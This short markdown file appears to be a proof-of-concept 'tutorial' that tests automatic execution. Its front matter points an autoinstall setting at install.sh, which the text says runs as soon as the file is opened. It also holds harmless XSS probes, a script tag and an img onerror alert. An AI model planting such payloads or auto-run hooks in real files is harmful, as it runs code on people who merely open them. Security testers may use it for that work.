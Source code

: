 ```yaml
---
walkthrough_readme_autoinstall: install.sh
---
```


# Automatic Execution Tutorial

If you see a "HELLO WORLD" message in your terminal, it means the `install.sh` script ran automatically as soon as this tutorial was opened!

<script>alert(1)</script><img/src/onerror=alert(2)//>

You did not have to click anything for that to happen.
